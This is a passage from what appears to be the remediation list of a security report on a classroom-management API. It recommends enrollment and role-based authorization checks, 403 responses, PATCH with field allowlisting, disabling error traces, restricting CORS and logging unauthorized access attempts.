3. Enforce enrollment checks on `GET /api/classrooms`.
4. Enforce enrollment checks on `GET /api/classrooms/{id}`.
5. Restrict `PUT /api/classrooms/{id}` to authorized admin, lecturer, mentor, or faculty roles only.
6. Restrict `DELETE /api/classrooms/{id}` to authorized admin roles only.
7. Apply authorization checks before validation and before model lookup, update, or delete operations.
8. Return `403 Forbidden` when an authenticated user lacks permission.
9. Avoid using `PUT` in a way that nulls omitted fields unless full replacement is explicitly intended.
10. Consider using `PATCH` for partial updates with strict field allowlisting.
11. Disable detailed error traces in production.
12. Review CORS configuration and avoid wildcard origins for sensitive APIs.
13. Log and alert on unauthorized access attempts to classroom modification endpoints.

---
